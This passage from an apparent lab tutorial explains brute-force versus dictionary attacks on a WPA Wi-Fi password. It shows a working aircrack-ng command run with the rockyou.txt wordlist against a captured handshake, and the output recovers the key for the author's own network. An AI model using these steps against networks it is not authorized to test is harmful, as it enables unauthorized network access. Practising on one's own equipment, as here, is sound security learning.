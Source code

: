 ### Perform Attack

* Brute-force VS dictionary attack:
	* A brute-force attack tries every possible combination.
	* A dictionary attack tries all passwords from a given list.
* Say we know the password is 8 characters long and it can have lower  and upper letters and numbers. The total number of possible combinations would be 62^8.
	* 26 lower letter
	* 26 upper letters
	* 10 numbers 
	* 62^8 = 218,340,105,584,896 possible combinations.
*   If your file have all those possible combinations (unlikely), then your dictionary attack would be a brute-force attack as well. If you have any less that than, it is a dictionary attack. 
*   This is assuming we know password is 8 characters long and that it does not contain any special characters.

* There are many files that you can download over the internet to conduct a dictionary attack. I ended up downloading the famous "rockyou.txt", which may not be the best for Wi-Fi password.
*  Put my password around the middle of the file (rockyou.txt).
*  The other option is for you to generate a custom dictionary list with tools such as crunch, cupp, etc.

#### aircrack-ng
	
```bash
➜  02 sudo aircrack-ng CasaSH-Capture-01.cap -w ../wordlists/rockyou.txt
Reading packets, please wait...
Opening CasaSH-Capture-01.cap
Read 3346 packets.

   #  BSSID              ESSID                     Encryption

   1  64:13:AB:1B:92:AC  Casa SH                   WPA (1 handshake)

Choosing first network as target.

Reading packets, please wait...
Opening CasaSH-Capture-01.cap
Read 3346 packets.

1 potential targets



                               Aircrack-ng 1.6 

      [00:00:14] 79189/14344393 keys tested (5828.72 k/s) 

      Time left: 40 minutes, 47 seconds                          0.55%

                           KEY FOUND! [ 5101997. ]


      Master Key     : AD 22 A9 73 97 44 9A 77 5A 49 E2 03 46 17 9E 55 
                       59 E8 9E F6 A3 42 5A EB 9F FB 75 5A 1D C1 DA 7E 

      Transient Key  : 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 

      EAPOL HMAC     : 11 7D C3 7C 39 D3 43 DA F8 27 23 EB DA 77 C3 A1 
```
